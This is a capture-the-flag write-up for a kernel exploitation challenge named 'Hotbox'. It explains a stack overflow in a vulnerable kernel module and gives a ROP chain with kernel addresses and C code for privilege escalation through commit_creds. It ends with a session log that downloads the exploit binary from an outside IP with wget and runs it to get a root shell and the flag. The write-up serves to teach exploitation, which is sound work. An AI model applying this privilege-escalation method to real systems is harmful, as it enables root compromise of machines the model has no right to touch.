 # Hotbox
**Category**: Pwn

420 Points

4 Solves

Problem description:

```
Kernel exploitation challenge!

ssh blazeme@18.222.40.104 password: guest

Download here (6 MB)

The flag in this archive is not the real flag. It's there to make you feel good when your exploit works locally.

Author: crixer
```

Basically, babby's first kernel pwn.

Ok, so we are given a vulnerable kernel module. First off, we see two problems:
 - race condition on read, what if kbuf becomes NULL after the check? not exploitable
 - `strncat(str, kbuf, strlen(kbuf))` with `char str[512]` on stack **exploitable**

We have a kernel stack overflow, but wait:
```C
#define KBUF_LEN (64)
// ...
if (count > KBUF_LEN) {
    printk(KERN_INFO "blazeme_wrtie invaild paramter count (%zu)\n", count);
    ret = ERR_BLAZEME_OK;
    goto out;
} 
```
Oof. So how do we overflow a 512-byte buffer with a 64-byte one?
Simple: `kbuf = kmalloc(KBUF_LEN, GFP_KERNEL)`, but `kbuf` is never freed.
Sometimes, the kernel will hand us a kbuf in the same page as last time, and the data is never deinitialized.
The idea is to repeatedly perform 64-byte non-null write on `/dev/blazeme` until we fill up 512+ bytes of contiguous non-null bytes.
In effect, that "page spray" will allow us to overflow the stack buffer.
However, the big caveat is that our payload must be non-null. Technically, you can work around this to get partial overwrites with null bytes, but it's not needed.

Using a pattern, we can deduce our return address has to be at offset 0x18 from the beginning of a 64-byte block.
However, we don't necessarily know *which* block will be the one to overflow the stack buffer. That means our ropchain needs to be <`64-0x18` bytes in length, giving us 5 gadgets.
Luckily, we are given vmlinuz so we extract it and we can use ROPgadget.py to find gadgets. Tons of non-null gadgets are available.
Since it's running in QEMU, there is no ASLR (hooray).

To pivot to userland, we need to jump to an address with the high 16 bits zeroed.
0xffffXXXXXXXXXXXX is kernelland, and we can't mmap into that, but 0x00007fXXXXXXXXXX seems to work fine.
With that gameplan in mind, our ropchain is:

```
0xffffffff810e14d6 mov ecx, 0x10 ; mov rax, rcx ; ret
0xffffffff8127b8f9 mov eax, 0x7fffffff ; pop rbp ; ret
0x1234123412341234 popped rbp value for previous gadget
0xffffffff81102330 shl rax, cl ; ret
0xFFFFFFFF8107BC1D call rax
```
And we'll mmap our kernel shellcode at 0x00007fffffff0000.

Now we have pivoted to userland, but we are still executing "as" kernel, e.g. we haven't exited the syscall.
That means it's time to escalate privileges, then finally return back to userland for a shell:

```C
struct trap_frame64 {
    void*     rip;
    uint64_t  cs;
    uint64_t  rflags;
    void*     rsp;
    uint64_t  ss;
} __attribute__ (( packed )) tf;

void  prepare_tf(void) {
    asm(
        "xor %eax, %eax;"
        "mov %cs, %ax;"
        "pushq %rax;   popq tf+8;"
        "pushfq;      popq tf+16;"
        "pushq %rsp; popq tf+24;"
        "mov %ss, %ax;"
        "pushq %rax;   popq tf+32;"
    );
    tf.rip = &shell;
    tf.rsp  -= 1024;   //  unused  part of  stack
}

void payload() {
   commit_creds(prepare_kernel_cred(0)); // we get these functions' addresses from kallsyms.
   asm("movq $tf, %rsp; swapgs; iretq;");
}
```

Note the `swapgs`. This is necessary on x64 before a `iretq`. With that we're done.

```
$ ssh blazeme@18.222.40.104
blazeme@18.222.40.104's password:
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-1054-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  Get cloud support with Ubuntu Advantage Cloud Guest:
    http://www.ubuntu.com/business/services/cloud

1 package can be updated.
0 updates are security updates.


*** System restart required ***
Last login: Tue Apr 24 09:56:16 2018 from 108.225.193.26
WARNING: Image format was not specified for '/tmp/tmp.SdKt0lWWkV' and probing guessed raw.
         Automatically detecting the format is dangerous for raw images, write operations on block 0 will be restricted.
         Specify the 'raw' format explicitly to remove the restrictions.
warning: TCG doesn't support requested feature: CPUID.01H:ECX.vmx [bit 5]
Welcome to Buildroot
buildroot login: blazeme
Password:
login: can't change directory to '/home/blazeme'
$ cd /tmp
$ wget 123.123.123.123/a.out
Connecting to 123.123.123.123 (123.123.123.123:80)
a.out                100% |*******************************|   825k  0:00:00 ETA
$ chmod +x a.out
$ ./a.out
cs=0x33 ss=0x2b rip=0x4009ae rsp=0x7fffd223f0a0 rflags=0x246
shellcode at 0x7fffffff0000 jumping to 0x400a17
Segmentation fault
$ ./a.out
cs=0x33 ss=0x2b rip=0x4009ae rsp=0x7ffeef33fae0 rflags=0x246
ashellcode at 0x7fffffff0000 jumping to 0x400a17
HACKED!!!!!!
$ ls
a.out        messages     messages.0   resolv.conf
$ cd /
$ ls
bin         lib         media       root        tmp
dev         lib64       mnt         run         usr
etc         linuxrc     opt         sbin        var
flag        lost+found  proc        sys
$ cat flag
blaze{bblaze{blaze{blaze{blaze}}}}
```

Interesting :)
